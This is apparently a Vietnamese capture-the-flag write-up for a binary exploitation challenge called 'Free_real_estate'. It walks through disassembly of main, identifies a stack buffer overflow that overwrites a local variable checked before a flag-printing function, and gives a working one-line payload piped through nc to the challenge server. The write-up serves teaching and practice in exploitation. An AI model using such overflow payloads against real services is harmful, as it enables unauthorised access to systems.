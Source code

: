 **Free_real_estate**
---
Binary Exploitation

Description:
---
> Nothing

Solution:
---
Như cái tên đề bài thì đây là bài free điểm, nhưng mà :joy: Chạy thử xem nào :point_down:

![](/Vong_loai_PTIT/Pwnable/Free_real_estate/1.PNG)

Xem ra có 1 chỗ nhập, disassembly ra xem main nào:

```asm
   0x08048671 <+10>:	push   ebp
   0x08048672 <+11>:	mov    ebp,esp
   0x08048674 <+13>:	push   ecx
   0x08048675 <+14>:	sub    esp,0x24
   0x08048678 <+17>:	call   0x80485bb <init>
   0x0804867d <+22>:	mov    DWORD PTR [ebp-0xc],0x4d2
   0x08048684 <+29>:	sub    esp,0xc
   0x08048687 <+32>:	push   0x8048792
   0x0804868c <+37>:	call   0x8048450 <puts@plt>
   0x08048691 <+42>:	add    esp,0x10
   0x08048694 <+45>:	sub    esp,0x8
   0x08048697 <+48>:	push   0x32
   0x08048699 <+50>:	lea    eax,[ebp-0x24]; <--- Buffer nhập vào nằm ở [ebp-0x24]
   0x0804869c <+53>:	push   eax
   0x0804869d <+54>:	call   0x8048628 <readin>; <--- Hàm đọc đây rồi, nhìn lên <+48> thì hàm này cho nhập 0x32 bytes
   0x080486a2 <+59>:	add    esp,0x10
   0x080486a5 <+62>:	sub    esp,0x8
   0x080486a8 <+65>:	lea    eax,[ebp-0x24]
   0x080486ab <+68>:	push   eax
   0x080486ac <+69>:	push   0x80487a2
   0x080486b1 <+74>:	call   0x8048430 <printf@plt>
   0x080486b6 <+79>:	add    esp,0x10
   0x080486b9 <+82>:	cmp    DWORD PTR [ebp-0xc],0x1b39; <--- DWORD PTR [ebp-0xc] == 0x1b39 ? secret() : Bye! 
   0x080486c0 <+89>:	jne    0x80486c9 <main+98>
   0x080486c2 <+91>:	call   0x804860f <secret>; <--- secret() là hàm in flag ra nhé
   0x080486c7 <+96>:	jmp    0x80486d9 <main+114>
   0x080486c9 <+98>:	sub    esp,0xc
   0x080486cc <+101>:	push   0x80487b0
   0x080486d1 <+106>:	call   0x8048430 <printf@plt>
   0x080486d6 <+111>:	add    esp,0x10
   0x080486d9 <+114>:	mov    eax,0x0
   0x080486de <+119>:	mov    ecx,DWORD PTR [ebp-0x4]
   0x080486e1 <+122>:	leave  
   0x080486e2 <+123>:	lea    esp,[ecx-0x4]
   0x080486e5 <+126>:	ret
```
Tóm lại là từ `[ebp-0x24]` đến `[ebp-0xc]` có `0x18` bytes. Mà `readin` lại cho nhập vào `0x32` bytes. Ăn thôi :yum:

> Gõ terminal đập phát chết luôn, khỏi cần code:
```bash
python -c 'print "A"*0x18 + "\x39\x1b\x00\x00"' | nc 3.91.78.13 10004
```
Flag thiếu chữ P mọi người tự thêm vào nhé:

![](/Vong_loai_PTIT/Pwnable/Free_real_estate/2.PNG)
